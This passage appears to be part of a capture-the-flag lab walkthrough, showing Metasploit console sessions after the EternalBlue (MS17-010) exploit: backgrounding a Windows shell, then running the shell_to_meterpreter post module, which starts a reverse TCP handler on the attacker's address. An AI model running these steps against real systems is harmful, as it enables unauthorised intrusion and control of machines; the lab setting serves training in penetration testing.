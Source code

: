 Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

## Task 3  Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

Answer the questions below
If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
```


```
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to a
                                       uto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on

msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                               Connection
  --  ----  ----               -----------                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version  10.8.49.33:4444 -> 10.10.178.226:49724 (1
                                6.1.7601] -----                          0.10.178.226)

msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.49.33:4433 
[*] Post module execution completed

```
